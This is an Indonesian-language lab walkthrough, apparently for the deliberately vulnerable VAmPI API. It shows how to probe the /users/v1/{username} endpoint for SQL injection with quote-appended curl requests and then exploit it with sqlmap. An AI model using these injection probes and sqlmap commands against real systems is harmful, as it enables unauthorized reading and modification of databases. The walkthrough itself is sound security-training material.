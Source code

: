 # SQL Injection
Serangan SQL Injection adalah jenis serangan injeksi, di mana perintah SQL dimasukkan ke dalam input data untuk memengaruhi eksekusi perintah SQL yang telah ditentukan sebelumnya. Serangan SQL Injection yang berhasil dapat membaca data sensitif dari database, memodifikasi data database, atau menjalankan operasi administrasi pada database. Secara umum, cara aplikasi web membuat query SQL adalah dengan melibatkan sintaks SQL yang ditulis oleh programmer dicampur dengan data yang disediakan oleh pengguna. Celah keamanan ini berada di endpoint `/users/v1/{username}`

- Kita bisa menggunakan username apapun sebagai parameter kemudian menambahkan tanda petik tunggal dibagian akhir
```sh
curl "http://IP_Server:5000/users/v1/test'" --proxy http://127.0.0.1:8080 
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/sql%20injection/sqli%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/sql%20injection/sqli%202.JPG)

- Selain tanda petik tunggal kita juga bisa menggunakan kode `%27` yang otomatis akan terdecode sebagai tanda petik tunggal
```sh
curl http://IP_Server:5000/users/v1/test%27 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/sql%20injection/sqli%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/sql%20injection/sqli%204.JPG)

- Sekarang kita coba lakukan SQL Injection dengan tool sqlmap
```sh
sqlmap -u "http://IP_Server:5000/users/v1/test" --batch
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/sql%20injection/sqli%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/sql%20injection/sqli%206.JPG)